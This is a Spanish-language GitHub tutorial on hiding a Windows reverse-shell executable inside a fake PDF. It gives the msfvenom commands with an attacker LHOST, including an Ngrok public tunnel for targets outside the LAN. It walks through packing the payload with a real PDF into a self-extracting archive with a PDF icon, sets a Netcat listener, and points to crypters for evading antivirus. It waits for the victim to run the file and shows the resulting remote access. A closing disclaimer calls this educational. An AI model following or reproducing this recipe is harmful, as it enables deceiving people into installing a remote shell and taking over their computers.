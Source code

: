 <p align="center">
  <a href="https://github.com/DenverCoder1/readme-typing-svg"><img src="https://readme-typing-svg.herokuapp.com?font=Fira+Code&size=19&pause=1000&color=D1F700&width=489&lines=Incrustar+Payload+.EXE+a+un+archivo+.PDF"></a>
</p>

<h1 align="center"></h1>

<h3 align="center"><ins>Qué es un PAYLOAD y cuáles son sus TIPOS</ins></h3>

En el campo de la seguridad informática el payload (*carga útil*) son los datos o metadatos transmitidos como un mensaje para facilitar la entrega de éste. Un ejemplo de la vida real sería un avión o camión de carga, donde éste transporta grandes mercancías para su utilización. Ahora bien, cuando se envía un correo electrónico también se transmite datos como el mensaje, la cabecera, el cuerpo del mensaje y otros metadatos que quieres que reciba el destinario.

El término de "**carga útil maliciosa**" o "**payload malicioso**" aparece en escena cuando hablamos especificamente de ciberseguridad. Un exploit es una vulnerabilidad, y el payload es la carga que se ejecuta en esa vulnerabilidad para realizar ciertas acciones maliciosas en el sistema, como ejecutar comandos remotos, borrar ficheros o enviar datos, secuestrar una URL para redireccionar al usuario a un sitio web malicioso con malware adjuntado, entre otras.  Los payloads maliciosos primero tienen que encontrar la entrada correcta para llegar al dispositivo, la forma más común de entregar la carga útil es a través de la ingeniería social como el phishing, email spoofing, entre otros ataques avanzados de suplantación de identidad. Entrando en juego, un ejemplo sería cuando recibes un correo electrónico de la empresa "Amazon" para rastrear tu pedido. Como estás esperando la entrega, haces clic en el enlace. El enlace te lleva a una página de seguimiento de pedidos de Amazon, pero automáticamente se descarga un archivo "confiable", en realidad, es el payload malicioso incrustado en un archivo legítimo. Está técnica se le conoce como secuestro de DNS acompañada de ingeniería social, en algunos casos la página legítima de la empresa es secuestrada por el atacate para inyectar código malicoso (Javascript u otro lenguaje) e incrustar payloads.

##### TIPOS de PAYLOADS

- **Payload BIND (Directo)**: Una shell directa es una especie de configuración donde las consolas remotas se establecen con otras computadoras a través de la red. En Bind shell, el atacante inicia un servicio en la computadora de destino, a la que puede concectarse. Para ello, el atacante debe tener la IP de la víctima para acceder al dispositivo y ejecutar comandos remotos. Bind TCP abre un puerto en el dispositivo de la víctima. Por lo general, una máquina está detrás de un firewall (o NAT) y los firewalls no permiten más puertos que algunos específicos (21, 22, 80, 443, etc). Un puerto abierto significa que podría estar disponible para que cualquiera pueda interactuar con ese puerto en el host de la víctima.

- **Payload REVERSE (Inverso)**: Mientra tanto, en una shell inversa el atacante usa la ejecucción de código inicial para que la máquina de la víctima se comunique con la máquina del atacante para obtener acceso. En este escenario, el atacante configura un puerto escucha, el puerto _1234_ por ejemplo, y espera que la máquina de la víctima se comunique e instale la carga útil. Su principal ventaja es que la máquina víctima es quién se conecta a la máquina atacante, sin necesidad de abrir un puerto en la máquina víctima, evitando así que usuarios no deseados accedan a él. Además, los firewalls basados en hosts y/o red son más restrictivos en filtrados de salida. 

En conclusión, las cargas útiles inversas son más eficientes dado que es más probable que eludan cortafuegos.

- <a href="https://github.com/R3LI4NT/articulos/blob/main/Pentesting/WEB/ataqueXSS.md">Vulnerabilidad Cross-site scripting y secuestro de cookies</a>

- <a href="https://www.geeksforgeeks.org/difference-between-bind-shell-and-reverse-shell/">Diferencia entre payload Bind y Reverse</a>

<p align="center">
  <img src="https://github.com/R3LI4NT/articulos/blob/main/Pentesting/O.S/img/tiposPayloads.png">
</p>

<h1 align="center"></h1>

### ➤ Incrustar payload .EXE 

En el siguiente ejemplo utilizaré la herramienta Msfvenom del framework Metasploit para generar el payload. Abriré una terminal de la máquina atacante (Kali) y ejecutaré el siguiente comando para generar un payload de tipo reverse shell.

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.8 LPORT=4444 -f exe -o documento.exe
```

![1](https://user-images.githubusercontent.com/75953873/221320034-6f8e564e-c111-4554-8678-6580b10aabba.png)

- **-p**: Tipo de payload (para Windows de 64bits de tipo reverse).

- **LHOST**: IP de la máquina atacante.

- **LPORT**: Puerto escucha.

- **-f**: Formato del archivo (.exe).

- **-o**: Nombre del archivo (salida).

El siguiente paso será copiar el payload generado al escritorio de Windows. Después, hay que descargar el icono de PDF (en PNG) y convertirlo a `.ico` con la siguiente página (https://www.icoconverter.com/):

![2](https://user-images.githubusercontent.com/75953873/221322644-1b8a2990-3796-4154-9010-961142191c73.png)

Ahora, deberán crear un documento PDF (original) y combinarlo con el payload. Para ello, seleccionan los dos archivos (payload .EXE y documento .PDF) y le dan clic a "_Añadir al archivo_".

![3](https://user-images.githubusercontent.com/75953873/221322932-e7c37e7f-3d3a-4f85-a130-23b65446df87.png)

Marcan la casilla de "_Crear un archivo autoextraíble_" y en el método de compresión seleccionan "_La mejor_".

![4](https://user-images.githubusercontent.com/75953873/221323181-d5cc8413-3faf-4f22-8355-00cef6ec84bc.png)

Luego, en el apartado de "**Avanzado**", dan clic en "_Autoextraíble_" **->** "_Instalación_" y escriben el nombre de los dos archivos, es decir, del payload y el documento malicioso.

![5](https://user-images.githubusercontent.com/75953873/221323376-e204ff6f-470d-48ee-904e-a8dbd36befbd.png)

En la sección de "**Actualizar**" marcan las casillas de "_Extrar y actualizar ficheros_" y "_Sobrescribir todos los ficheros_".

![6](https://user-images.githubusercontent.com/75953873/221323534-9e55c199-7180-4dd1-9bd4-864cc94a9bd8.png)

Para añadir el icono hay que ir a "**Texto e icono**" y cargarlo en la última opción "_Cargar icono desde fichero_"; aquí seleccionan el logo convertido a `.ico`.

![7](https://user-images.githubusercontent.com/75953873/221323864-326a2cf4-8580-43e5-baf6-e9842b94ebf7.png)

Por útilmo, escogen el nombre del archivo malicioso.

![8](https://user-images.githubusercontent.com/75953873/221324091-a0926da4-c1d8-4737-a2cb-f70255f30b9b.png)

Desde la máquina atacante pondremos a escucha conexiones por el puerto `4444` con la herramienta de Netcat.

```
nc -nlvp 4444
```

- **-n**: Modo dirección IP númerica.

- **-l**: Modo escucha.

- **-v**: Modo verbose (detalles de conexiones).

- **-p**: Puerto específico de escucha.

Y esperamos que la víctima ejecute el documento malicioso y le de a "**Instalar**".

![9](https://user-images.githubusercontent.com/75953873/221324860-3dc1a8e3-116b-4812-b028-3e874f5d071c.png)

Rápidamente conseguiremos acceso a la máquina víctima y podremos ejecutar comandos remotos.

![10](https://user-images.githubusercontent.com/75953873/221324978-a2d0344f-fe32-4288-9252-ad6413dc15d1.png)

<h1 align="center"></h1>

#### ➤ Fuera de la red LAN

El método anterior solo funciona si la víctima se encuentra conectado a la misma red local que el atacante. Para hacerlo funcionar fuera de la red LAN hay que crear un túnel dinámico para convertir nuestra conexión (o servicio) local a público, esto gracias al proxy inverso que ofrece <a href="https://ngrok.com/download">**Ngrok**</a>. Por ejemplo, si tenemos un servicio arrancando en `http://localhost:8080`, lo que hará negrok es generar una URL dinámica del tipo `http://xxxxxx.ngrok.io` visible en internet que apunta a nuestro localhost.

- <a href="https://www.youtube.com/watch?v=JNpg_iA_zWc">Instalar NGROK en Linux</a>

El primer paso será crear un túnel TCP por el puerto 9999:

```
ngrok tcp 9999
```

![11](https://user-images.githubusercontent.com/75953873/221445377-9df84e93-3b3a-465f-b7b1-ad5fd7048351.png)

Ahora, crearemos nuevamente el payload pero está vez sustituimos el **LHOST** por la dirección de Ngrok y el puerto **LPORT**.

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=0.tcp.sa.ngrok.io LPORT=12296 -f exe -o documento.exe
```

![12](https://user-images.githubusercontent.com/75953873/221445539-c34703b3-56f5-469f-bb03-ececf9cf19f7.png)

Repiten los pasos utilizados para incrustar el payload en el documento, el puerto que usamos para abrir el túnel Ngrok fue `9999`. Por lo tanto, pondremos a escucha el mismo con Netcat:

```
nc -nlvp 9999
```

![13](https://user-images.githubusercontent.com/75953873/221445921-d0f74a2a-f3a7-4e84-84df-a4814ba0dc9b.png)

Una carga útil de Msfvenom es altamente detectable por los antivirus, a día de hoy las base de datos de AV contienen las firmas de cientos de malware para su detección.

![14](https://user-images.githubusercontent.com/75953873/221446743-1d93ec54-7569-49fe-884f-0dca63e66510.png)

Generalmente los atacantes utilizan un crypter para evadir los antivirus. Un crypter es un software que altera los archivos con el objetivo de que éste puede saltarse las diversas protecciones que propone un antivirus. Repasando las técnicas de los AV, cuentan con dos formas para detectar las amenzanas:

- **Firmas**: los antivirus detectan patrones hexadecimales de los archivos y los comparan con su base de datos. En caso de coincidir, la amenaza será bloqueada.

- **Heurística**: los antivirus detectan comportamiento malintencionado de un archivo y lo catalogan como amenaza si éste es malicioso.

➙ <a href="https://www.kaspersky.es/blog/signature-virus-disinfection/9298/">Firmas - Kaspersky</a>

➙ <a href="https://www.kaspersky.es/resource-center/definitions/heuristic-analysis">Heurística - Kaspersky</a>

La mayoría de los Crypters son privados debido al esfuerzo que hay detrás para mantenerlo actualizado, y los que hay gratis, son inútiles o vienen con una sorpresa incluída. Sin embargo, hay proyectos en github como el caso de <a href="https://github.com/MrEmpy/Condor">**Condor**</a> o <a href="https://github.com/tanc7/EXOCET-AV-Evasion">**EXOCET**</a>, creados con fines de ayudar a los probadores de penetración a eluir la protección como AV/EDR/XDR en el sistema operativo Windows.

![15](https://user-images.githubusercontent.com/75953873/222000998-0bdaaf32-cbd9-46e6-b325-b1b3416fbe2d.png)

La herramienta trae por defecto iconos predeterminados, de igual manera se puede descargar y convertir a extensión `.ico` si así lo desea.

![16](https://user-images.githubusercontent.com/75953873/222002321-e83df0e3-9888-4fbd-a14a-2848a0f4b7a4.png)

</br>

<h1 align="center"></h1>

<h3 align="center"><ins>ADVERTENCIA<ins></h3>

<h4 align="center">Esto es con fines de aprendizaje, no nos hacemos responsables ni el fundador, ni el creador del tema del mal uso de esta herramienta u información.</h4>



#### ~R3LI4NT~
